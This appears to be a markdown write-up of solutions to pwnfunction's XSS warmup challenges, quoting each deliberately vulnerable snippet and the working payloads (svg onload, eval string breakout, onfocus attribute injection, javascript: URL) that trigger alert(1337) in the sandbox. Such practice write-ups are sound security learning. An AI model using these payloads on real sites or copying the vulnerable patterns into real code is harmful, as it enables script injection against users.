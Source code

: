 # pwnfunction xss solutions

## Warmups

### Ma Spaghet!

```html
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

My solution: `https://sandbox.pwnfunction.com/warmups/ma-spaghet.html?somebody=<svg>onload=alert(1337)>`

### Jefff

```html
<h2 id="maname"></h2>
<script>
    let jeff = (new URL(location).searchParams.get('jeff') || "JEFFF")
    let ma = ""
    eval(`ma = "Ma name ${jeff}"`)
    setTimeout(_ => {
        maname.innerText = ma
    }, 1000)
</script>
```

- I tried concatenation where `%2b` is `+`: `https://sandbox.pwnfunction.com/warmups/jefff.html?jeff=abc"%2b"xyz`
- Then got a working payload: `https://sandbox.pwnfunction.com/warmups/jefff.html?jeff="%2balert(1337)%2b"`
- Intended solution: `"-alert(1337)-"`

### Ugandan Knuckles

```html
<div id="uganda"></div>
<script>
    let wey = (new URL(location).searchParams.get('wey') || "do you know da wey?");
    wey = wey.replace(/[<>]/g, '')
    uganda.innerHTML = `<input type="text" placeholder="${wey}" class="form-control">`
</script>
```

My solution (same as rxss-angles-encoded in portswigger): `" autofocus onfocus="alert(1337)`
Intended solution: `"onfocus=alert(1337) autofocus="`

### Ricardo Milos

```html
<form id="ricardo" method="GET">
    <input name="milos" type="text" class="form-control" placeholder="True" value="True">
</form>
<script>
    ricardo.action = (new URL(location).searchParams.get('ricardo') || '#')
    setTimeout(_ => {
        ricardo.submit()
    }, 2000)
</script>
```

- Spent a lot of time hacking the wrong parameter `milos` instead use `ricardo`.
- My solution: `https://sandbox.pwnfunction.com/warmups/ricardo.html?ricardo=javascript:alert(1337)`
- Intended solution: `javascript:alert(1337)`

### Ah That's Hawt

```html
<h2 id="will"></h2>
<script>
    smith = (new URL(location).searchParams.get('markassbrownlee') || "Ah That's Hawt")
    smith = smith.replace(/[\(\`\)\\]/g, '')
    will.innerHTML = smith
</script>
```

